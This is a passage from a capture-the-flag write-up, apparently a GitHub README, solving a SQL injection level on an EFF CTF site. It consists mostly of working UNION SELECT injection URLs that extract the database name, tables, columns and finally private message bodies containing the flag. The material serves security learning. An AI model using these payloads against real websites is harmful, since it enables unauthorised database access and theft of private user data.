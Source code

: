 Database
```
https://level0x1.eff-ctf.org/tweets?uid=3 UNION SELECT null,database()--
```

Tables
```
https://level0x1.eff-ctf.org/tweets?uid=1 UNION SELECT null, table_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'
```

Columns
```
https://level0x1.eff-ctf.org/tweets?uid=1 UNION SELECT null, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'
```

Finally, using this information we get the flag in the following private messages:
Private messages:
```
https://level0x1.eff-ctf.org/tweets?uid=1 UNION SELECT null, body FROM messages--
```

![](./images/level1.png)


### Level 2 Reverse Engineering for Fun and No Profit
